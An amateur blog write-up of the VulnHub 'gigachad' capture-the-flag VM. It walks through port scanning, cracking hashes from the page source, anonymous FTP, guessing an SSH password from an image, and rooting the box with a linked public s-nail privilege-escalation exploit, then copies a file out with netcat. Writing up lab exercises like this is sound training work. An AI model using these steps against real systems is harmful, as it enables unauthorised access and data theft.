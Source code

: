 ```yaml
---
layout: post
title:  CTF-gigachad
date:   2021-06-30 20:15:52 -0600
categories: CTF
tags: Pentest
---
```

# CTF-gigachad
## Discovery
link: [vulnhub-GAGACHAD](https://www.vulnhub.com/entry/gigachad-1,657/)
The only information we have it's there is multiple flags.

## Discovery and Scanning
### netdiscover
Fast scan with netdiscover.
```
sudo netdiscover -r 192.168.0.0/16
```
```
_____________________________________________________________________________               
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname                     
---------------------------------------------------------------------------- 
192.168.0.19    08:00:27:d0:52:bc      1      42  PCS Systemtechnik GmbH
```
### nmap
```
sudo nmap -sV -p- 192.168.0.19
```
```
Nmap scan report for 192.168.0.19
Host is up (0.00010s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:D0:52:BC (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We have the port 21, 22 and 80 open and it\'s a debian machine.
### port 80
Let\'s to to http://192.168.0.19 and see what I can find.
With the inspector(F12) I found a key:
`A7F9B77C16A3AA80DAA4E378659226F628326A95 D82D10564866FD9B201941BCC6C94022196F8EE8`
#### Dirbuster
I run a dirbuster with a common wordlist.
`dirbuster -u http://192.168.0.19/ -l Wordlist-common.txt`
Oh... I found 500 directories, I stop the scan, it\'s useless

#### Hash
Is an SHA-1 hash:
a7f9b77c16a3aa80daa4e378659226f628326a95 = fuck you
D82D10564866FD9B201941BCC6C94022196F8EE8 = VIRGIN
Maybe it's a password or a user.

I got all what I need so I can go to the FTP part.

### port 21
`ftp 192.168.0.19`
bash: ftp : commande introuvable
oh, I use arch BTW (and I\'m french)
`sudo pacman -S inetutils`
Now we can play.
`ftp 192.168.0.19`
user: `anonymous`
password: `password`
```
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
I\'m in, let's see what we can have with `ls`.
```
-r-xr-xr-x    1 1000     1000          297 Feb 07 17:33 chadinfo
```
Good, I have to read it.
Download: `ftp>get chadinfo`
Read: `cat chadinfo`
```
PK
0
 HR���ƃchadinfoUT	�j `Zj `ux
                                  why yes,
#######################
username is chad
???????????????????????
password?
!!!!!!!!!!!!!!!!!!!!!!!
go to /drippinchad.png
PK
0
 HR���ƃ��chadinfoUT�j `ux
                         PKN�
```
User: `chad`
Password: in the image drippinchad.png
http://192.168.0.19/drippinchad.png
![](images/drippinchad.png)

I will use google image to see where is it.
It\'s `maiden's tower` it should be the password.
After multiples attempts the password is `maidenstower`

I\'m connected as chad:
we have the directory `ftp` with the `chadinfo`,
and also user.txt.
I download and read it. 
```
flag 1/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

```
Nice, I think I\'m done with the ftp, I go to sleep I will continue tomorrow.

### Port 22
I\'m back.

I will try to connect to ssh with previous creds:
User: `chad`
Password: `maidenstower`

```
ssh chad@192.168.0.19
```
I\'m in!

I am in his home directory, I will display what's in:

`ls -la`
```
drwxr-xr-x 4 chad chad 4096 Jul 16 06:51 .
drwxr-xr-x 3 root root 4096 Feb  7 14:57 ..
dr-xr-xr-x 2 chad chad 4096 Feb  7 16:41 ftp
drwx------ 3 chad chad 4096 Jul 16 06:51 .gnupg
-r-x------ 1 chad chad 1805 Jan  3  2021 user.txt
```
.gnupg seem intresting 

I have the directory private-keys-v1.d, but it's empty.
## Vulnerability Assessment
### Find perms
[Hausec pentest-cheatsheep](https://hausec.com/pentesting-cheatsheet/)
Find Binaries that will execute as the owner:
`find / -perm -u=s -type f 2>/dev/null`
This is what I found:
```
/usr/lib/openssh/ssh-keysign
/usr/lib/s-nail/s-nail-privsep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
```
s-nail look instresting:
`s-nail -V
v14.8.6`
### Exploit
I found this on exploit database:
[S-nail < 14.8.16 - Local Privilege Escalation](https://www.exploit-db.com/exploits/47172)
14.8.6 = 14.8.60 or 14.8.06 ?
Let's try it.

`touch exploit.sh`
`vi exploit.sh`
Past this: [https://www.exploit-db.com/raw/47172](https://www.exploit-db.com/raw/47172)
Escape, :wq.
`chmod + x exploit.sh`
`./exploit.sh`
Result:
```
[-] Failed. Not vulnerable?
[.] Cleaning up...
[-] Failed
```
This is the only exploit on exploit database, what I did wrong?
I\'m trying to download the file in the chad machine but the terminal is so buggy.
I will use scp to give him the file.
`scp 47172.sh chad@192.168.0.19:/tmp/exploit.sh`
Type the password: `maidenstower`
I have to run is with bash because ./ don\'t work, and I have too much errors now. 
I think the machine is broken or maybe my shell, 
I have some errors and it\'s my first CTF with this machine.
I fixed it with this [here](https://stackoverflow.com/questions/27052587/xterm-new-unknown-terminal-type).
So let\'s run the script and fail again, so I spamed it and I\'m in!
![](images/exploit.png)
I will change my shell `/bin/bash`. 
I\'m roo so let's see what is in `/root/` directory.
```
# cat root.txt  
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!
```
Nice, the CTF is over, it was easy.
There is an image, I will download it:
Receiver machine: `nc -l -p 1234 > chad.png` 
Sender machine: `nc -w 192.168.0.16 < chad.png`


This is the end, I hope you liked it, it was my first writeup.
![](images/chad.png)


